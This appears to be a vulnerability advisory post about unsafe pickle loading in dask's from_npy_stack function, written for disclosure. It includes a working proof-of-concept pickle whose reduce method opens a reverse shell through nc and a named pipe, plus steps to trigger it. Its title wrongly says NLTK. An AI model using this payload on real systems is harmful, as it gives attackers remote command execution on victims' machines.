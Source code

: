 ```yaml
---
layout: post
title:  "Command injection via unsafe pickle.loads in dask.array.from_npy_stack in NLTK(Informative)"
date:  2024-06-24 10:31:06 +0800
categories: command-injection
---
```


## Name

> Command injection via unsafe pickle.loads in dask.array.from_npy_stack

## Weakness

> CWE-94: Code Injection

## Severity

> High (8.8)

## Version

> 2024.6.2

## Description

The dask api [`dask.array.from_npy_stack`](https://docs.dask.org/en/stable/generated/dask.array.from_npy_stack.html#dask.array.from_npy_stack) is used to load dask array from stack of npy files. It loads dask arrays from a directory which contains a `info` file. The `info` file saves the information of the dask array. And `from_npy_stack` uses `pickle.load` method to load the `info` file which is a pickle file. If a victim loads a malicious `info` pickle file, command injection can be achieved.

The vulnerable function: [`dask.array.from_npy_stack#L5708`](https://github.com/dask/dask/blob/ff2488aec44d641696e0b7aa41ed9e995c710705/dask/array/core.py#L5708)

```
def from_npy_stack(dirname, mmap_mode="r"):
    """Load dask array from stack of npy files

    Parameters
    ----------
    dirname: string
        Directory of .npy files
    mmap_mode: (None or 'r')
        Read data in memory map mode

    See Also
    --------
    to_npy_stack
    """
    with open(os.path.join(dirname, "info"), "rb") as f:
        # vulnerable to command injection !!!!
        info = pickle.load(f)

    dtype = info["dtype"]
    chunks = info["chunks"]
    axis = info["axis"]

    name = "from-npy-stack-%s" % dirname
    keys = list(product([name], *[range(len(c)) for c in chunks]))
    values = [
        (np.load, os.path.join(dirname, "%d.npy" % i), mmap_mode)
        for i in range(len(chunks[axis]))
    ]
    dsk = dict(zip(keys, values))

    return Array(dsk, name, chunks, dtype)
```

## Proof of Concept

Firstly, create a malicious pickle file. Use following snippets to create a malicous `info` pickle file:

```
import pickle
import os

class RCE:
    def __reduce__(self):
        cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | '
               '/bin/sh -i 2>&1 | nc 127.0.0.1 1234 > /tmp/f')
        return os.system, (cmd,)

with open('info', 'wb') as f:
    pickle.dump(RCE(), f)
```

I have uploaded the [`info`](https://raw.githubusercontent.com/sunriseXu/onnx/main/payload.pickle) to github for testing.


## Start attack

Install latest dask:

```
pip install dask
```

Create a malicious dask array directory.

```
example
    |__info
```

Use following snippets to trigger the unsafe `pickle.loads` command injection:

```
import dask.array as da
da.from_npy_stack('example')
```

After the command executed, we can check the `/tmp/f` file is created.

```
> ls -la /tmp/f
prw-r--r-- 1 kali kali 0 Jun 24 19:48 /tmp/f
```
## Colab

Tested on google colab: [https://colab.research.google.com/drive/1XaF82Sgt1nmY0hhSu0l_PBnFTQuCyNLq?usp=sharing](https://colab.research.google.com/drive/1XaF82Sgt1nmY0hhSu0l_PBnFTQuCyNLq?usp=sharing)

![image](http://live.staticflickr.com/65535/53822138335_9a3095507b_k.jpg)

## Impact

This vulnerability can have severe consequences. If victims load a malicious dask array folder using `dask.array.from_npy_stack`, command injection can be achieved on victims' mechine.


## Occurrences

[dask.array.from_npy_stack#L5708](https://github.com/dask/dask/blob/ff2488aec44d641696e0b7aa41ed9e995c710705/dask/array/core.py#L5708)

